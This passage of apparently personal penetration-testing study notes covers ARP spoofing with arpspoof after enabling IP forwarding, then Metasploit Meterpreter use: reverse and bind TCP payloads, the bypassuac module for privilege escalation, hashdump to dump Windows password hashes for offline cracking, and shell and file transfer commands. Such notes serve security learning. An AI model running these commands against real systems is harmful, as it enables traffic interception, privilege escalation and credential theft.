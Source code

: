 ```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

You can then run arpspoof:
```bash

arpspoof -i <interface> -t <target> -r <host>

example:

arpspoof -i eth0 -t 192.168.4.11 -r 192.168.4.16
```

> [!NOTE] You can then run Wireshark and intercept the traffic!



# METERPRETER

Most used Payloads:

bind_tcp

- Runs a server process on the target machine that waits for connections from the attacker machine

reverse_tcp

- Performs a TCP connection back to the attacker machine. As you saw in the Backdoors chapter, this feature 
- help evade firewall rules

> We can use the getsystem to update our privilege, but in modern Windows that is not possible because of the User Account Control
> We can bypass that restriction by using the "bypassuac" 

- search bypassuac
```bash
use exploit/windows/local/bypassuac
set session <session that we want to update privileges>
```

> in the new meterpreter session, the UAC is disabled, so we can execute the command "getsystem"


- hashdump to dump the password databases and save it 'for' an offline cracking session;

```bash
use post/windows/gather/hashdump
set session <session number>
```


We can 'download' and 'upload' files:
```bash
'shell' > to run standard operating system shell

run post/windows/gather/win_privs = whoami /priv

ps
```

